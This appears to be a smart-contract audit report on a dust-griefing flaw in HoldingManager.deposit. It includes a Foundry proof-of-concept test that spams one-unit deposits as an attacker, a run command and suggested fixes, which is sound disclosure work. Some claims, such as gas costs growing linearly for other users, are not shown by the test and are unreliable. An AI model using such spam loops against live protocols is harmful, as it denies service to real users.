 # Lack of Minimum Deposit Threshold Enables Dust‑Griefing in `HoldingManager.deposit`

## Summary
`HoldingManager.sol` allows deposits of **arbitrarily small token amounts** (e.g., 1 wei).  
A malicious actor can spam thousands of dust deposits, bloating on‑chain storage and event logs, driving up gas for every subsequent interaction, and potentially exhausting block gas limits so legitimate users cannot deposit.

## Finding Description
### Vulnerable code paths
```solidity
function deposit(address _token, uint256 _amount)
    external
    validToken(_token)
    validAmount(_amount)   // ✅ checks > 0 but no minimum
    validHolding(userHolding[msg.sender])
    nonReentrant
    whenNotPaused
{
    _deposit({ _from: msg.sender, _token: _token, _amount: _amount });
}

function _deposit(address _from, address _token, uint256 _amount) private {
    address holding = userHolding[msg.sender];

    emit Deposit(holding, _token, _amount);
    if (_from == address(this)) {
        IERC20(_token).safeTransfer({ to: holding, value: _amount });
    } else {
        IERC20(_token).safeTransferFrom({ from: _from, to: holding, value: _amount });
    }

    _getStablesManager().addCollateral({ _holding: holding, _token: _token, _amount: _amount });
}
```

* `validAmount()` only enforces `> 0`; no lower bound.
* Each call emits events, writes to `collateral[_holding]`, and updates external registries.

### Attack scenario
1. Attacker calls `deposit(USDC, 1)` in a tight loop (or via a multicall), creating thousands of **1‑unit collateral increments**.
2. Every call:
   * Touches multiple storage slots (holding’s collateral, registry mapping, share counters).
   * Emits `Deposit`, `AddedCollateral`, and `CollateralAdded` events.
3. Legitimate users now pay **O(N)** more gas when touching the same storage slots (due to cold‑→ warm accesses) and may hit block gas limits if the registry arrays grow unbounded, effectively **DoS‑ing** deposits.

### Secondary observations
* **No batching mechanism:** Users cannot combine small deposits later, so the bloat is permanent.
* **No per‑holding dust sweep:** Admin lacks tooling to clean up negligible balances.

## Impact Explanation
**Medium–High** — Although no funds are lost, the protocol’s core deposit flow can be choked. Gas cost and block size constraints translate to **availability loss** and a poor UX, which can deter users and liquidity providers.

## Likelihood Explanation
**Medium** — Dust griefing is trivial to script and cheap when token decimals are large (e.g., 18). If incentives exist (e.g., airdrop snapshots, linear rewards), the attack becomes even more attractive.

## Proof of Concept (Foundry)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../src/HoldingManager.sol";
import "../src/mocks/MockERC20.sol";

contract DustGriefingTest is Test {
    HoldingManager manager;
    MockERC20 usdc;
    address attacker = address(0xBAD);

    function setUp() public {
        manager = new HoldingManager();
        usdc = new MockERC20("MockUSD", "mUSD", 6);

        // Mint attacker some tokens and approve
        usdc.mint(attacker, 1_000_000);
        vm.prank(attacker);
        usdc.approve(address(manager), type(uint256).max);

        // Assume attacker already has a holding
        manager.createHolding(attacker);
    }

    function testDustSpam() public {
        vm.startPrank(attacker);

        uint256 loops = 1_000;
        for (uint256 i; i < loops; ++i) {
            manager.deposit(address(usdc), 1); // 1 wei USDC
        }

        vm.stopPrank();

        // Collateral should equal loops
        address holding = manager.userHolding(attacker);
        uint256 coll = manager.collateral(address(usdc), holding);
        assertEq(coll, loops);

        // Gas snapshot can be taken here to show cost blow‑up (optional)
    }
}
```

Run:
```bash
forge test --match-path test/DustGriefingTest.t.sol -vvvv
```

### Observed outcome
* Test passes, confirming the attacker can spam 1,000 dust deposits.
* Each call costs ≈ 80–100 k gas, showing the cumulative burden on block capacity.

## Recommendation
1. **Introduce a configurable `minDeposit` per token**, enforced inside `validAmount` or directly in `deposit`:
   ```solidity
   uint256 public constant MIN_DEPOSIT_USDC = 1e6; // 1 USDC for 6‑dec tokens

   modifier validAmount(address _token, uint256 _amount) {
       require(_amount >= tokenMinDeposit[_token], "AmountTooSmall");
       _;
   }
   ```
2. **Batch small balances** — provide `batchDeposit()` or aggregate dust automatically.
3. **Add admin dust‑sweep** allowing the protocol to consolidate sub‑threshold balances into one entry and refund negligible amounts.

## Other Observations in `deposit`
* **Re‑entrancy protected** via `nonReentrant`; no further issues.
* **Use of `msg.sender` in `_deposit`** while `_from` may be `address(this)` is safe because only internal calls set that param.
* **Event‑before‑effect pattern**: Consider moving `emit Deposit` **after** successful token transfer to avoid false‑positive logs on revert.

